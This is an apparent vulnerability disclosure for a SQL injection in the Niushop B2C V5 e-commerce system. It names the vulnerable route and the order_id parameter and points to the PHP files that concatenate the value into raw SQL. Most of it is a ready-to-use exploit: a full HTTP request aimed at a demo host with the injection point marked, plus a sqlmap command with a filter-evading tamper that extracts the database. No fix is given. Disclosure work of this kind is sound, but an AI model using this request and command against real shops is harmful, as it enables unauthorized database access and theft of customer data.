

Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.

Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.

Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db


